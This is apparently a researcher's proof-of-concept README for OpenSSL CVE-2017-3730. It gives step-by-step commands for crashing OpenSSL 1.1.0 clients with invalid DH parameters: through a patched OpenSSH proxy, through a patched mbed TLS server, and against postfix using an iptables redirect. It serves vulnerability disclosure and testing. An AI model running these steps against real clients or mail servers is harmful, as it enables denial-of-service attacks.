 # CVE-2017-3730
OpenSSL CVE-2017-3730 proof-of-concept

## Using OpenSSH as a proxy to patch DH values on the fly

- Create an SSL server using a ciphersuite like ```DHE-PSK-WITH-AES-256-GCM-SHA384```. Let's say it runs on 10.0.2.2 port 8899
- Get openssh-7.4p1
- Apply patch
- Build it
- Run it like:
```
./ssh -vvv -N -D 1085 -o TCPKeepAlive=yes -o ServerAliveInterval=60 localhost
```
- In a different terminal create a file ```~/.tsocks.conf``` with this content:
```
server = 127.0.0.1
server_port = 1085
server_type = 5
local = 127.0.0.0/255.255.255.0
```
- ```export TSOCKS_CONF_FILE=`realpath ~/.tsocks.conf````
- ```tsocks```
- This creates a shell in which all network traffic flows through our "evil" proxy
- ```openssl s_client -connect 10.0.2.2:8899 -psk AA```
- crash

## Modify mbed TLS to serve invalid DH parameter

- Get https://github.com/ARMmbed/mbedtls/archive/mbedtls-2.4.1.tar.gz
- Apply ```mbedtls-2.4.1-patch.txt```
- make -j4 programs
- Run server: ```programs/ssl/ssl_server2 force_ciphersuite=TLS-DHE-RSA-WITH-AES-256-GCM-SHA384```
- Connect to it with OpenSSL 1.1.0 client
- crash

## Crashing postfix remotely

- Compile postfix with OpenSSL 1.1.0
- Compile ```crash-postfix.c``` against the PATCHED mbed TLS (see above)
- What I did was run postfix in a VM and run ```crash-postfix``` on the host:
- ```iptables -t nat -A OUTPUT -p tcp --dport 25 -j DNAT --to-destination 10.0.2.2:8888```
- Start ```crash-postfix```
- Run postfix: ```posttls-finger 10.0.2.2```
- Crash
